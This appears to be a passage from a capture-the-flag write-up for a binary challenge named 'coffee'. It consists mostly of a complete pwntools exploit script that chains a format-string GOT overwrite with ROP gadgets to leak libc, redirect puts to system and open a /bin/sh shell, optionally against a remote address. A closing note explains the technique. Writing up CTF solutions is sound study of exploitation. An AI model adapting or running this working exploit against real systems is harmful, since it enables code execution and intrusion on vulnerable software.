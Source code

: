 > props: https://gist.github.com/moratorium08/164461bcce8dccd76e2fc11ad53dd91c#file-coffee-py-L139

Using the trick from above to get `%159s` for `scanf` it's possible to do this with a single pass:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./coffee')

if args.REMOTE:
    p = remote('34.146.101.4', 30002)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

offset = 6

pop_rdi = binary.search(asm('pop rdi; ret')).__next__()
pop_rsi_r15 = binary.search(asm('pop rsi; pop r15; ret')).__next__()
pop_seld = binary.search(asm('pop rbp; pop r12; pop r13; pop r14; pop r15; ret')).__next__()

payload  = b''
payload += b'%29$018p'
payload += fmtstr_payload(offset+1,{binary.got.puts:pop_seld}, write_size='int', numbwritten=18)
payload += p64(pop_rsi_r15)
payload += p64(binary.got.puts)
payload += p64(0)
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binary.search(b'%159s').__next__() + 0x1000)
payload += p64(binary.plt.__isoc99_scanf)
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binary.got.puts + 9)
payload += p64(binary.plt.puts)

p.sendline(payload)

libc.address = int(p.recv(18).decode(),16) - libc.sym.__libc_start_main - 243
log.info('libc.address: ' + hex(libc.address))

p.recvuntil(b'\n') # garbage cleanup

payload  = b''
payload += p64(libc.sym.system)
payload += b'\0/bin/sh\0'

p.sendline(payload)
p.interactive()
```

`scanf` is called to overwrite the `puts` GOT entry with `system`, followed by `/bin/sh` to a known location (`binary.got.puts + 9`), that can be easily pop'd into RDI then called.

Partial RELRO is a gift.
